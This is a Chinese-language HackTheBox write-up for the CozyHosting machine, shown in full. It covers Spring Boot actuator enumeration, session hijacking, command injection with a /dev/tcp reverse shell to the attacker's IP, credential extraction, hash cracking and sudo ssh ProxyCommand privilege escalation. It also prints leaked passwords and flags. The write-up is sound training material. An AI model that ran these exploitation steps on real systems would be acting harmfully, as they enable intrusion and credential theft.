


## CozyHosting 

使用nmap对目标机进行扫描

```
nmap -sV -sC 10.10.11.230
```

 

发现了22和80端口

登录上去先用gobuster目录爆破

```
gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 200
```




自己去网页上看看，发现报错页面出现Whitelabel Error Page 这是Springboot的报错页面


使用springboot未授权访问专门字典爆破一下

```
gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -t 200
```


```
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator             (Status: 200) [Size: 634]
/actuator/health      (Status: 200) [Size: 15]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/sessions    (Status: 200) [Size: 48]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/beans       (Status: 200) [Size: 127224]


其中对寻找漏洞比较重要接口的有：

/env、/actuator/env

GET 请求 /env 会直接泄露环境变量、内网地址、配置中的用户名等信息；当程序员的属性名命名不规范，例如 password 写成 psasword、pwd 时，会泄露密码明文；

同时有一定概率可以通过 POST 请求 /env 接口设置一些属性，间接触发相关 RCE 漏洞；同时有概率获得星号遮掩的密码、密钥等重要隐私信息的明文。

/refresh、/actuator/refresh

POST 请求 /env 接口设置属性后，可同时配合 POST 请求 /refresh 接口刷新属性变量来触发相关 RCE 漏洞。

/restart、/actuator/restart

暴露出此接口的情况较少；可以配合 POST请求 /env 接口设置属性后，再 POST 请求 /restart 接口重启应用来触发相关 RCE 漏洞。

/jolokia、/actuator/jolokia

可以通过 /jolokia/list 接口寻找可以利用的 MBean，间接触发相关 RCE 漏洞、获得星号遮掩的重要隐私信息的明文等。

/trace、/actuator/httptrace

一些 http 请求包访问跟踪信息，有可能在其中发现内网应用系统的一些请求信息详情；以及有效用户或管理员的 cookie、jwt token 等信息。
```

访问/actuator/sessions 发现一个用户名密码kanderson及sessions：D4B652AF970AB1E933D11958B3FAA255


使用cookie修改工具方便快捷。


刷新成功登录到后台页面


发现ssh功能点尝试一下RCE


爆出uid值为1001,说明存在RCE漏洞，进行反弹shell

使用nc监听5566端口

```
nc -lvvnp 5566
```

使用bp发包反弹shell

首先使用如下命令来创建一个与攻击者的tcp连接，并将标准输入(0)重定向到这个连接，sh是一个子shell的标记，用来在括号内执行命令

```
`(sh)0>/dev/tcp/10.10.14.15/5566`
```


在监听方执行一下命令

将标准输出(1)标准错误(2)都重定向到标准输入(0),exec会替代当前shell进程，不会创建新进程

```
exec >&0   
```

启动一个新交互式bash，将输出记录到/dev/null丢弃，执行的命令不会在目标留下任何痕迹

```
script /dev/null -c bash     
```


在目标发现一个jar文件


发现目标主机上有python环境，开启http服务下载jar文件

```
python3 -m http.server 1234
```



在本机上访问1234端口下载jar文件


使用jar包进行反编译

java-decompiler.jar 来自IDEA

```
java -cp “/opt/java-decompiler.jar:” org.jetbrains.java.decompiler.main.decompiler.ConsoleDecompiler -dgs=true cloudhosting-0.0.1.jar data
```

直接解压缩然后用IDEA查看就行

查看到数据库用户密码

```
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```


在看其他wp的时候发现一种新颖的方式

```
mv cloudhosting-0.0.1.jar cloudhosting-0.0.1.zip
mkdir cloudhosting | unzip cloudhosting-0.0.1.zip -d cloudhosting
cd cloudhosting
grep "password" ./r
grep "username" ./r
```


查看5432端口是否存在

```
netstat -pantu | grep 5432
```


使用psql登录到数据库

```
psql -h localhost -p 5432 -U postgres -d cozyhosting -W
```


查看数据库名称的列表

```
\l
```


查看数据库表

```
\d

```


查看users表里面内容

```
select * from "users";
```


```
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

使用john 解密hash 文件

```
john --wordlist=/usr/share/wordlists/rockyou.txt cozyhosting 
```


解密的密码为：manchesterunited

使用root用户无法登录

查看一下有那些用户

```
cat /etc/passwd
```

发现有root,app,josh


使用josh登录到服务器

```
ssh josh@10.10.11.230
```

查看flag

```
cat user.txt
7e34e165c35c77e2b126d3851d37115a
```


提权

查看一下sudo权限

```
sudo -l
```


使用ssh提权

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```


找到root的flag

```
21264bb643c66171e772d117fda10ece
```


